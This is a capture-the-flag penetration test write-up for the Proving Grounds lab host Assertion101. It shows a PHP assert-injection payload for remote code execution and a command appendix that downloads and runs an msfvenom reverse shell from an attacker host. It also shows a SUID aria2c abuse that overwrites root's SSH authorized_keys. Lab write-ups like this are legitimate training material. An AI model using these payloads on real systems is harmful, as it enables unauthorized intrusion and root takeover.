 # Penetration Test Report for Proving Grounds - Assertion101
- **Author:** Joey Melo
- **Date:** March 25, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.54.94 (Assertion101)

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized networks is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the Assertion101 network. The tester is tasked with following a methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the Assertion101 network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the Assertion101 network. When performing the attacks, the tester was able to gain access to the machine, primarily due to misconfiguration in the index.php file served by the HTTP host which granted the tester remote code execution in the host. The host has been successfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
- **TCP:** 22,80
## Initial Access
### Vulnerability Explanation
The remote HTTP server has a misconfigured index.php file which allows an attacker to obtain remote code execution in the system.
### Vulnerability Fix
Sanitize user input, especially in the "assert" function.
### Attack Walkthrough
While enumerating the web page, the tester noticed a "page" paramater in the index.php file served by the HTTP server.

![HTTP index.php page using "page" as parameter](https://imgur.com/cKc55C7.png)

The tester attempted to request the "/etc/passwd" file from the host; however, the host had a filter in place which blocked the usage of ".." (two dots).

![LFI blocked due to filtering in place](https://imgur.com/4XTc62A.png)

Nevertheless, the filter did not block attempts to bypass the assert function, and the tester obtained remote code execution with the following payload in the page parameter:
`' and die(system("id")) or '` 

![Filter bypassed and RCE obtained](https://imgur.com/zS6IGIF.png)

As proof of exploitation, the tester captured the *local.txt* flag.

![User flag](https://imgur.com/09hqpv0.png)

## Privilege Escalation
### Vulnerability Explanation
The remote host is running the "aria2c" binary with setuid privileges. This can be abused to write files in the system with root privileges.
### Vulnerability Fix
Remote the SUID bit from "aria2c".
### Attack Walkthrough
After establishing a foothold on the target, the tester noticed the "aria2c" binary had the SUID bit set.

![aria2c binary with SUID bit set](https://imgur.com/Vbiyq7f.png)

The tester exploited this vulnerability by uploading a known ssh key into the root folder.
```bash
aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.49.54/id_rsa.pub" --allow-overwrite=true
```

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

![Root flag](https://imgur.com/F3A4M90.png)

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.54.94

# Exploit
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
python3 -m http.server 80
nc -lvnp 1337
## In browser
http://192.168.54.94/index.php?page=' and die(system("wget http://192.168.49.54/revshell.elf -O /tmp/revshell; chmod 777 /tmp/revshell; /tmp/revshell")) or '

# Initial Access
cd ..
cat local.txt
ifconfig

# Privilege Escalation
## In Assertion
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null > suids.txt
cat suids.txt # notice aria2c with suid
## In Kali
cd /home/kali/.ssh
python3 -m http.server 80
## In Assertion
aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.49.54/id_rsa.pub" --allow-overwrite=true
## In Kali
ssh -i id_rsa root@192.168.54.94

# Post Exploitation
cd /root
cat proof.txt
ifconfig
```
